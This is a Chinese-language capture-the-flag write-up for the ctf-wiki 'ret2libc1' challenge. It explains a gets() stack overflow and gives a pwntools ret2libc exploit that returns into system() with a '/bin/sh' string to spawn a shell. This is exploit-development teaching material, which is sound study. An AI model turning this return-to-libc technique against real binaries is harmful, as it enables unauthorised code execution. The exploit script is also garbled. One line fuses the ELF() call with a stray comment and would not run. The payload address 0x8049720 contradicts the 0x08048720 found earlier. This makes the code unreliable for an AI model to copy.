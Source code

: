 ```yaml
---
layout: post
title: CTF-PWN实例3（ret2libc1）
categories: 
 - CTF
 - PWN
 - 二进制
permalink: /pwn/3
nocomments: true  # Disable the comment box. This is EasyBook feature
typora-root-url: ..\_site
---
```


# CTF-PWN实例3（ret2libc1）

## 题目地址：

https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2libc/ret2libc1

## 程序保护：

```shell
$ checksec ret2libc1
```

```shell
	Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

首先这里依旧开启了NX保护。

## 程序信息：

```shell
$file ret2libc1
ret2libc1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=fb89c86b266de4ff294489da59959a62f7aa1e61, not stripped
```

这里跟上一题不一样，变成了动态链接。其实这一题和上一题链接状态都没什么作用，只是包含在程序本身的代码段少了，寻找对应的代码多少问题。

## 解题：

### 一、IDA分析程序溢出点

IDA分析main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

这里依旧是gets()函数造成溢出。但是这里我们可以在函数列表发现system函数。查看此函数的调用点。

```c
void secure()
{
  unsigned int v0; // eax@1
  int input; // [sp+18h] [bp-10h]@1
  int secretcode; // [sp+1Ch] [bp-Ch]@1

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf("%d", &input);
  if ( input == secretcode )
    system("shell!?");
}
```

发现sysrem函数中的参数不是我们所需要的。

### 二、cyclic和pwndbg判断偏移量

偏移量依然是112，就不做过多篇幅。

### 三、编写EXP

思路：

我们先试试上一题的思路。

```shell
$ROPgadget --binary ./rop --ropchain
```

返回的结果是失败的。

```python
[-] Can't find the 'mov dword ptr [r32], r32' gadget
```

找不到一定的代码段。

那前面已经发现可以利用的函数，这时候需要参数，其实这里就是上一题的分解步骤，这时候需要在程序中查找“/bin/sh”字符串，

```
$ROPgadget --binary ret2libc1 --string '/bin/sh'          
Strings information
============================================================
0x08048720 : /bin/sh
```

exp代码：

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *

p = process('./ret2libc1')
elf = ELF('./ret2libc1')elf.plt['system']从plt表中搜索函数。
p.sendline('a'*112+p32(elf.plt['system'])+'aaaa'+p32(0x8049720)) #elf.plt['system']从plt表中搜索函数。

p.interactive()
```

这里我们需要注意函数调用栈的结构，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，这里以'aaaa' 作为虚假的地址，其后参数对应的参数内容。

## 总结

这里跟上一题很相似但是是动态链接，但是这一题很简单，提供了system函数和对应的字符串。一般情况下不会这么简单。